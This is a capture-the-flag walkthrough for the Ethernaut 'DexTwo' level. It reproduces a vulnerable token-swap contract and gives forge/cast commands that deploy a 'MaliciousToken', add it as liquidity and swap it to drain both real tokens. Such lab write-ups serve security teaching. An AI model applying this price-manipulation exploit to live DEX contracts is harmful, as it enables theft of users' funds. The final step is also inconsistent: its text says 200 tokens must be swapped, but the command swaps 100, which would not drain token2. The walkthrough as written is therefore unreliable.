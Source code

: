 ## Dex Level Outline

**Difficulty : 4/10**

This level will ask you to break DexTwo, a subtlely modified Dex contract from the previous level, in a different way.

You need to drain all balances of token1 and token2 from the DexTwo contract to succeed in this level.

You will still start with 10 tokens of token1 and 10 of token2. The DEX contract still starts with 100 of each token.

```solidity  
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

import "@openzeppelin/contracts/token/ERC20/IERC20.sol";
import "@openzeppelin/contracts/token/ERC20/ERC20.sol";
import '@openzeppelin/contracts/math/SafeMath.sol';

contract DexTwo  {
  using SafeMath for uint;
  address public token1;
  address public token2;
  constructor(address _token1, address _token2) public {
    token1 = _token1;
    token2 = _token2;
  }

  function swap(address from, address to, uint amount) public {
    require(IERC20(from).balanceOf(msg.sender) >= amount, "Not enough to swap");
    uint swap_amount = get_swap_amount(from, to, amount);
    IERC20(from).transferFrom(msg.sender, address(this), amount);
    IERC20(to).approve(address(this), swap_amount);
    IERC20(to).transferFrom(address(this), msg.sender, swap_amount);
  }

  function add_liquidity(address token_address, uint amount) public{
    IERC20(token_address).transferFrom(msg.sender, address(this), amount);
  }

  function get_swap_amount(address from, address to, uint amount) public view returns(uint){
    return((amount * IERC20(to).balanceOf(address(this)))/IERC20(from).balanceOf(address(this)));
  }

  function approve(address spender, uint amount) public {
    SwappableTokenTwo(token1).approve(spender, amount);
    SwappableTokenTwo(token2).approve(spender, amount);
  }

  function balanceOf(address token, address account) public view returns (uint){
    return IERC20(token).balanceOf(account);
  }
}

contract SwappableTokenTwo is ERC20 {
  constructor(string memory name, string memory symbol, uint initialSupply) public ERC20(name, symbol) {
        _mint(msg.sender, initialSupply);
  }
}
```

[Link to level on Ethernaut](https://ethernaut.openzeppelin.com/level/0xd2BA82c4777a8d619144d32a2314ee620BC9E09c)

## Solution

The price is calculated based on the ratio of tokenA and tokenB. If we createa a malicious ERC20 token and add liquidity to the contract, we can control the exchange rate and drain all tokens.

### Walkthrough

##### 1. Create a new [forge project](https://book.getfoundry.sh/projects/creating-a-new-project.html) with the following contract in `src` 
```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.13;

import "openzeppelin-contracts/contracts/token/ERC20/ERC20.sol";

contract MaliciousToken is ERC20 {
    constructor() ERC20("MaliciousToken", "MALTKN") {
        _mint(msg.sender, 1000000);
    }
}
```

##### 2. Deploy our new contract
```console
forge create src/Contract.sol:MaliciousToken --private-key  $PRIVATE_KEY
```

##### 3. Approve the Dex contract to spend our tokens. We need to do this to add liquidity
```console
cast send $DEPLOYED_ADDRESS "approve(address,uint256)" $LEVEL_ADDRESS 200 --private-key=$PRIVATE_KEY 
```
> Replace $DEPLOYED_ADDRESS with the address of your deployed contract

##### 4. Send 100 of our `MALTKN` to the dex so that the price ratio between `token1` and `MALTKN` is 1:1
```console
cast send $LEVEL_ADDRESS "add_liquidity(address,uint)" $DEPLOYED_ADDRESS 100 --gas 150000 \ 
--private-key $PRIVATE_KEY
```


##### 5. Let's get the addresses for `token1` and `token2`
 
```console
cast call $LEVEL_ADDRESS "token1()"

cast call $LEVEL_ADDRESS "token2()"
```

##### 6. Now that the exchange rate is 1:1, let's send swap 100 of our malicious token to `token1` to drain the dex's supply of `token1`.
 
```console
cast send $LEVEL_ADDRESS "swap(address,address,uint)" $DEPLOYED_ADDRESS $TOKEN1_ADDRESS 100 --gas 250000 \
--private-key $PRIVATE_KEY
```

##### 7. Now the total supply of `MALTKN` in the contract is 200, meaning that the ratio between `MALTKN` and `token2` will be 0.5:1 
 
to drain the supply of `token2` we need to swap 200 `MALTKN` for `token2`
```console
cast send $LEVEL_ADDRESS "swap(address,address,uint)" $DEPLOYED_ADDRESS $TOKEN2_ADDRESS 100 --gas 250000 \
--private-key $PRIVATE_KEY
```
